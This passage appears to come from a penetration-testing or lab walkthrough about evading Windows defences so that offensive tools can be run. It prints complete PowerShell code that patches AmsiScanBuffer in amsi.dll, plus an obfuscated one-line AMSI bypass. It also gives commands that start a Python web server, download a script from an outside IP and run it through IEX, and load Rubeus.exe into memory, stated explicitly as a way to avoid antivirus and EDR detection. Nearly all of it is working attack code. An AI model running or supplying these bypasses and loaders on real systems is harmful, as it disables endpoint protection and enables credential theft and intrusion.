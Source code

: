 `https://github.com/r3motecontrol/Ghostpack-CompiledBinaries`

Prepare the ANSI bypass file, by creating a text document and pasting the following:

```txt
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

In the folder with the two files, start a python server:

`python3 -m http.server 8080`

Now, use the AMSI bypass in the rdp session:

`$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)`

`(new-object system.net.webclient).downloadstring('http://10.4.10.99:8080/amsi_rmouse.txt')|IEX`

![Pasted_image_20250113114737](https://github.com/user-attachments/assets/c98b7d72-c5a0-49c2-8227-35d7f7b3775f)

In order to avoid the possibility of being detected by antivirus or any endpoint detection tools, let's execute Rubeus from memory, instead of writing the executable file to disk.

And then see the available tickets:

`$data = (New-Object System.Net.WebClient).DownloadData('http://10.4.10.99:8080/Rubeus.exe')`
